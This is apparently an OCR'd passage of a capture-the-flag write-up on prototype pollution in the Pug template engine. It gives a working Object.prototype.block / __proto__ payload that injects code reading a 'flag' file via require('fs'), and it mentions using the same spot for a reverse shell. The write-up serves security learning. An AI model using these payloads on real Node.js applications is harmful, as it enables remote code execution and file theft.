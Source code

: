 ```
    ;} catch (err) {pug.rethrow(err, pug_debug_filename, pug_debug_line);};return pug_html;}
    
    
    
And there we go! We have our inject console.log line there and it will be executed whenever this template function is called. We can put our RCE payload there and get a reverse shell in node.js applications!

Here we'll try to directly read the flag using the following:

global.process.mainModule.require('fs').readFileSync('flag', 'utf8');

The complete payload looks like this:

Object.prototype.block = {"type": "Text", "line": "1; pug_html = pug_html + '[[flag ='+ global.process.mainModule.require('fs').readFileSync('flag', 'utf8')+']]'"};

Or, if you're sending the payload from a script in the form of JSON, then the payload should be:

 "__proto__.block": {
        "type": "Text", 
        "line": "1; pug_html = pug_html + '[[flag ='+ global.process.mainModule.require('fs').readFileSync('flag', 'utf8')+']]'"
    }


And you can get the flag in the UI!

```




